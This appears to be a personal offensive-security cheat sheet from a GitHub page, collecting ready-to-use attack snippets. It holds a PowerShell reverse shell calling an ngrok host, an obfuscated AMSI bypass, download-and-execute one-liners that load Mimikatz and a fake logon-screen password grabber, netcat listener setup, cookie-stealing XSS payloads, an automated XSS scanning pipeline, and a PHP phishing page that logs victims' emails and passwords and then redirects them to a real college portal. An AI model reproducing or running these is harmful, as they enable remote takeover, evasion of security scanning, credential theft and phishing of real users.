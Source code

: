 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------

# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>

flkdflkjslkf"><img%20src=x%20onmouseover=confirm(1)>

<svg onload="javascript:window.onerror=confirm;throw 10">
    
<scr<h1>ipt>document.write("<img src=x onerror=confirm(1);>");</scr<h1>ipt>

<svg/onload=alert(1)>
    
```

#alert in window 

    Add-Type -AssemblyName PresentationCore,PresentationFramework

`for alert`

    [System.Windows.MessageBox]::Show($Messageboxbody,$MessageboxTitle,$ButtonType,$messageicon)

# 1linerXSS

    gospider -S subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox -b astutehacker.xss.ht pipe -o result3.txt

#phishing 
make proccess.php and give process.php to action=/process.php
content of process.php
```
<?php
if(isset($_POST['email']) && isset($_POST['password'])) {
    $password = file_get_contents('phishing.txt');
    $phishing = fopen("phishing.txt", "a");
    fwrite($phishing, $password."email: ".$_POST['email']." Password: ".$_POST['password']."\n");
    fclose($phishing);
    echo '<script>window.location.href="https://su.icloudems.com/corecampus/index.php" </script>';
} else {
    echo '<script>window.location.href="index.html"</script>';
}
?>
```
`"><SVG ONLOAD%3d%26%2397%26%23108%26%23101%26%23114%26%23116(%26%23x64%26%23x6f%26%23x63%26%23x75%26%23x6d%26%23x65%26%23x6e%26%23x74%26%23x2e%26%23x63%26%23x6f%26%23x6f%26%23x6b%26%23x69%26%23x65%26%23x29>`


<iframe
  src="https://carbon.now.sh/embed?bg=rgba%28142%2C180%2C196%2C1%29&t=one-dark&wt=none&l=auto&width=680&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=34px&ph=29px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=%2523%2520Methodology%2520%28semi%2520auto%29%250A%250A%257C%2520%2540prakashchand72%250A%250A-%2520Automate%2520The%2520Recon%2520on%2520github%2520action%2520%250A-%2520github%2520action%250A%2520%250A%2520%257B%250A%2520%2520-%2520find%2520subdomains%250A%2520%2520-%2520find%2520httpx%2520detailed%2520%2520%250A%2520%2520-%2520find%2520httpx%2520live%2520%250A%2520%2520-%2520find%2520waybackurls%2520%250A%2520%2520-%2520automate%2520the%2520hostheader%2520injection%2520%250A%2520%2520-%2520run%2520nuclei%2520for%2520small%2520target%2520%28rarely%2520used%29%250A%2520%2520%250A%2520%2520%257D%250A%2520%2520%250A-%2520check%2520the%2520ssl%2520%252C%2520ip%2520and%2520domain%2520search%2520on%2520the%2520shodan%2520%2526%2520censys%250A%250A%257B%250A%250A*shodan*%250A-%2520ssl.cert.subject.cn%253A%2522namehere%2522%2520%2524statuscode%250A-%2520ssl%253A%2522namehere%2522%2520%2524statuscode%250A%250A*censys*%250A-%2520similar%2520with%2520censys%250A%250A%257D%250A%250A-%2520git%2520dorking%2520%250A%250A%257B%250A-%2520secret%250A-%2520password%250A-%2520token%250A-%2520passwd%250A-%2520pw%250A-%2520%2520_also%2520try%2520to%2520find%2520some%2520endpoints%2520or%2520may%2520be%2520some%2520subdomains_%250A%250A%257D%250A-%2520do%2520use%2520extension%2520%250A%250A%257B%250A%250A-%2520tufflehog%2520-%253E%2520token%252Fapi%252Fcreds%2520disclosure%2520%250A-%2520retire%2520js%2520-%253E%2520js%2520based%2520vuln%250A-%2520shodan%2520-%253E%2520%2520ip%252C%2520host%252C%2520port%250A%250A%257D%250A%250A-%2520now%2520based%2520on%2520finding%2520do%2520futher%2520recon%2520and%2520exploits%250A-%2520go%2520through%2520the%2520httpx%2520result%2520and%2520%2520choose%2520the%2520target%2520%2520that%2520catch%2520your%2520eye%250A-%2520go%2520through%2520the%2520shodan%252Fcensys%2520result%2520and%2520check%2520for%2520uncommon%2520port%2520or%2520service%2520you%2520like%2520to%2520futher%2520exploit%250A-%2520if%2520found%2520some%2520unauthorized%2520page%2520or%2520403%2520do%2520bruteforcing%2520_i%2520prefer%2520ferobuster%2520for%2520directory%2520bruteforcing_%250A-%2520now%2520rest%2520is%2520your%2520manual%2520testing%2520%250A-%2520Spend%2520time%2520on%2520burpsuite%2520and%2520checking%2520each%2520functinality%2520one%2520by%2520one%2520understanding%2520the%2520flow%2520and%2520working%2520%250A-%2520Depending%2520upon%2520the%2520%2520functionality%2520for%2520the%2520vuln%2520testing%2520%250A%250A"
  style="width: 964px; height: 1242px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">
</iframe>
